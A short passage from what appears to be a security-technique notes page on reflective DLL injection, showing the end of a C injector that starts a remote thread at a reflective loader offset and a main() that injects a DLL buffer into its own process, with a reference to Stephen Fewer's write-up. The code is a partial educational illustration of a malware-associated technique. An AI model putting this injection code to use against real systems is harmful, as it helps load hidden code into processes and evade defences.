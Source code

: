 ```c

    if (!(hThread = CreateRemoteThread(hProcess, NULL, 0x00, (LPTHREAD_START_ROUTINE)(pAddress + dwRflFuncOffset), NULL, 0x00, &dwThreadId))) {
        printf("\t[!] CreateRemoteThread Failed With Error: %d \n", GetLastError());
        return FALSE;
    }



    return TRUE;
}


int main() {
/* Read dll into buffer (not putting that here)*/
    // Parse PE Headers
    DWORD dwReflectiveFunctionsOffset = GetReflectiveFunctionOffset((UINT_PTR)lpDllBuffer);

    HANDLE hProcess = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, FALSE, GetCurrentProcessId() );
    
    if (!InjectAndRunDll(hProcess, dwReflectiveFunctionsOffset, lpDllBuffer, dwFileSize)) {
        wprintf(L"[!] InjectAndRunDll Failed");
        return -1;
    }


}
```
{% endcode %}

## References

### Write-up by Stephen Fewer

{% embed url="https://www.exploit-db.com/docs/english/13007-reflective-dll-injection.pdf" %}
